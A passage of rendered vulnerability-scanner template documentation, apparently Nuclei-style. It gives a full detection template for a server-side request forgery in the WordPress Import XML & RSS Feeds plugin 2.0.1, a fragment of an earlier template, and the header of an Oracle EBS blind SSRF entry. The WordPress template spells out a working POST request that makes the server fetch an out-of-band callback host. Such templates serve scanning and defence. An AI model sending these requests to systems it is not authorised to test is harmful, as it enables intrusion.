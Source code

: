 ### Matchers

**Type - word**

- part - interactsh_protocol
- words
  1. dns

**Type - word**

- part - location
- words
  1. {{BaseURL}}/AdminTools/querybuilder/logonform.jsp

---

# Import XML & RSS Feeds WordPress Plugin \<= 2.0.1 Server-Side Request Forgery

## Description

- WordPress plugin Import XML and RSS Feeds (import-xml-feed) plugin 2.0.1 contains a server-side request forgery (SSRF) vulnerability via the data parameter in a moove_read_xml action.
- severity - critical
- tags - cve,cve2020,wordpress,wp-plugin,ssrf

## Requests

- Method - POST
- Method - POST

### URL

- {{BaseURL}}/wp-admin/admin-ajax.php?action=moove_read_xml
  - type=url&data=http%3A%2F%2F{{interactsh-url}}%2F&xmlaction=preview&node=0

### Matchers

**Type - word**

- part - interactsh_protocol
- words
  1. http

---

# Unauthenticated Blind SSRF in Oracle EBS

## Description

- https://medium.com/@x41x41x41/unauthenticated-ssrf-in-oracle-ebs-765bd789a145
- severity - medium
- tags - cve,cve2018,oracle,ebs,ssrf,blind
